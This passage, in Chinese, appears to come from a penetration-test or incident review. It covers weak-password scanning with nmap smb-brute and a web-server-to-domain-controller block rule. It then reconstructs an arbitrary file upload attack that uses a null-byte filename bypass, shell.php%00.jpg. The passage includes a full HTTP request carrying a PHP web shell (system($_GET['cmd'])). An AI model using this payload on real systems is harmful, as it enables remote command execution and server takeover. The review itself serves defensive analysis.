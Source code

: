  
  
  
1. 配置VLAN分段，限制Web服务器到域控访问：  

```
iptables -A FORWARD -s web_server_ip -d domain_controller_ip -j DROP
```

  
1. 定期扫描弱口令：  

```
nmap --script smb-brute -p445 internal_network
```

  
  
### 二、利用任意文件上传漏洞  
#### 渗透链路复盘  
  
进入后台后，攻击者通过代码审计发现隐晦文件上传接口（
```
/internal/upload/secure/7b9c3d2e-8f5a-4c9b-a1d3-6e7f8a9b0c1d
```

  
），该接口仅允许管理员访问，但未验证文件内容。攻击者通过构造特殊后缀（
```
shell.php%00.jpg
```

  
）绕过后缀检查，上传恶意PHP文件。WAF未检测到该payload（因后缀为
```
.jpg
```

  
）。上传后，攻击者访问
```
/uploads/shell.php
```

  
执行系统命令，控制服务器，并通过内网扫描工具获取其他内网漏洞和信息。  
  
- **数据包示例（文件上传绕过）**  
：  

```
POST /internal/upload/secure/7b9c3d2e-8f5a-4c9b-a1d3-6e7f8a9b0c1d HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
------WebKitFormBoundary
Content-Disposition: form-data; name=&#34;file&#34;; filename=&#34;shell.php%00.jpg&#34;
Content-Type: image/jpeg
<?php system($_GET['cmd']); ?>
------WebKitFormBoundary--
```

  
  
#### 防护方如何发现并阻断  
  